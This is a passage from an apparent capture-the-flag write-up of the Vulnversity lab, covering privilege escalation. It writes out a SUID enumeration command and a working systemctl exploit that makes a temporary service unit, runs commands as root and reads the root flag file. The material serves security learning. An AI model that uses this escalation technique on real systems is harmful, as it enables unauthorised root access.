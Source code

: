             Now we have comprimised this machine!!

            ![untitled1](/vulnversity/vuln24.png)

---

---

#### Task 5: Privilege Escalation:

- From the description:
    - *SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).*

        ![untitled1](/vulnversity/vuln25.png)

- I did some research and found that: `find / -user root -perm -4000 -exec ls -ldb {} \;` allows you to find all SUID files on Linux:
    - From that, I found out that most files under `/usr/bin` do not have `permission denied` after their file extension. Thus, since this task requires us to find where the SUID files are, I had to do some research online and found that:
    - **SUID is a special file permission for executable files which enables other users to run the file with effective permissions of the file owner**
    - **The file that stands out is a file which was also created recently (also a good indication):**
    - Under the /bin directory, there is a file called systemctl. Systemctl is a control interface and inspection tool to manage services. Therefore if we can locate this folder, get access into it and then add a script inside, we can escalate our privileges!
    ![untitled1](/vulnversity/vuln26.png)

    Final task was to get root access, and this was very challenging

    - First I was recommended to get out [gtfobins]([https://gtfobins.github.io/gtfobins/systemctl/](https://gtfobins.github.io/gtfobins/systemctl/)) and look up what is systemctl and how to execute a SUID backdoor
    - After an in-depth read and searching through guides elsewhere, I followed these steps:
    1. Move into the bin directory `cd /bin`
    2. Open a shell within the /bin directory with `sh`
    3. Copy the template script into the shell:

        `TF=$(mktemp).service
        echo '[Service]
        Type=oneshot
        ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
        [Install]
        WantedBy=multi-user.target' > $TF
        ./systemctl link $TF
        ./systemctl enable --now $TF`

    ![untitled1](/vulnversity/vuln27.png)

    4.  Now, use `cat /tmp/output` to print out the temporary flag output

    ![untitled1](/vulnversity/vuln28.png)
